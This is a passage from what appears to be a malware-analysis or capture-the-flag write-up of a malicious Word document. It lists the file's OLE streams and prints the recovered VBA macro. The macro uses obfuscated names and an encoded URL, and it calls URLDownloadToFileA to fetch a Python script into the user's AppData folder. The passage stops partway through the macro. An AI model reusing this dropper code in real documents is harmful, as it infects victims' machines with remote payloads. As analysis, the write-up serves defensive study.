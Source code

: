 ```
 10:      3105 'Macros/VBA/_VBA_PROJECT'
 11:       573 'Macros/VBA/dir'
 12:       219 'MsoDataStore/CQ1ÝÕÅFÈÌÔÎÍP1ÃTØÙRCJQ==/Item'
 13:       335 'MsoDataStore/CQ1ÝÕÅFÈÌÔÎÍP1ÃTØÙRCJQ==/Properties'
 14:       128 'MsoDataStore/ÅÂB5ÅÞßÛÃEOÐLDÁÑIÖAYÈQ==/Item'
 15:       339 'MsoDataStore/ÅÂB5ÅÞßÛÃEOÐLDÁÑIÖAYÈQ==/Properties'
 16:     10833 'MsoDataStore/ÈÎDJCÙßÚIUÎDÉÐÇÑÒJJØÃQ==/Item'
 17:      1149 'MsoDataStore/ÈÎDJCÙßÚIUÎDÉÐÇÑÒJJØÃQ==/Properties'
 18:      1681 'MsoDataStore/ÝÁÐÑÒÖÍ5RÄÆOEIOËÞQPÂGQ==/Item'
 19:       321 'MsoDataStore/ÝÁÐÑÒÖÍ5RÄÆOEIOËÞQPÂGQ==/Properties'
 20:    152437 'WordDocument'
```

Thankfully, the macro was easy to understand. It seems that it was downloading and running a Python script called `pp.py` from a remote server in the specified path.

```
Private Declare PtrSafe Function a1AaQ Lib "urlmon" Alias "URLDownloadToFileA" ( _
    ByVal b1BbQ As LongPtr, _
    ByVal c1CcQ As String, _
    ByVal d1DdQ As String, _
    ByVal e1EeQ As Long, _
    ByVal f1FfQ As LongPtr) As Long

Public Function b1BbR(c1CcR As String) As String
    Dim d1DdR As Integer
    Dim e1EeR As Integer
    Dim f1FfR As String

    If Len(c1CcR) = 0 Or Len(c1CcR) Mod 2 <> 0 Then Exit Function

    d1DdR = Len(c1CcR)

    For e1EeR = 1 To Len(c1CcR)
        If e1EeR Mod 2 <> 0 Then
            f1FfR = f1FfR & Chr$(Val("&H" & Mid$(c1CcR, e1EeR, 2)))
        End If
    Next

    b1BbR = f1FfR
End Function

Sub c1CcS()
    Dim d1DdS As String
    Dim e1EeS As String
    Dim f1FfS As String
    Dim g1GgS As String
    Dim h1HhS As Long
    Dim username As String

    username = Environ("USERNAME")
    d1DdS = "68747470733n2s2s64726976652r676s6s676p652r636s6q2s66696p652s642s31764573414o44663731647763336267426s723238326o4p546173626p333348532s766965773s7573703q73686172696r67"

    e1EeS = j2JjS(d1DdS)

    f1FfS = b1BbR(e1EeS)

    g1GgS = "C:\Users\" & username & "\AppData\Local\pp.py"

    h1HhS = a1AaQ(0, f1FfS, g1GgS, 0, 0)

    If h1HhS = 0 Then
        MsgBox "File downloaded successfully.", vbInformation
```